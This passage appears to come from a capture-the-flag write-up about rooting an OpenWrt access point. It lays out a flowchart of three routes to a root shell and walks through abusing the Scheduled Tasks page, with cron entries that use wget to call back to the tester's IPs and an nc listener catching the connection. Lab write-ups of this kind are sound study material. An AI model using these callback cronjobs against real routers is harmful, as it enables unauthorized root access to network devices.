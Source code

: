 The note at the top that says no root password is set is actually a clule to finding the shortcut path I’ll show below.

### Multiple Methods

There are many ways to get a root shell on this box. I’ll show three:

```

flowchart TD;
    A[Connect WiFi]-->B(<a href='#openwrt'>Access Open-WRT</a>);
    B-->C(<a href='#create-cronjob'>Create Cronjob</a>);
    B-->D(<a href='#add-ssh-key'>Add SSH Key</a>);
    C-->E[root Shell on AP];
    D-->E;
    A-->F(<a href='#ssh-with-password'>SSH with password</a>);
    F-->E;

linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;

```

### Create Cronjob

#### Identify Capability

Looking around the Open-WRT interface, one of the options is System –> Scheduled Tasks:

![image-20240726140642348](/img/image-20240726140642348.png)

This page offers a blank text box to write cronjob syntax:

![image-20240726140721916](/img/image-20240726140721916.png)

#### Tracking Network Connectivity

I can write a reverse shell, but it doesn’t connect back to my host. That’s because the AP can’t route traffic to my IP. I’ll test this by trying cronjobs like these:

```
* * * * * wget http://192.168.1.84:4444
* * * * * wget http://10.10.14.6:443

```

When the first one is in place, I get a connection back to `nc` listening on the PLC:

```

root@attica01:~# nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.1.1 55352
GET / HTTP/1.1
Host: 192.168.1.84:4444
User-Agent: uclient-fetch

```

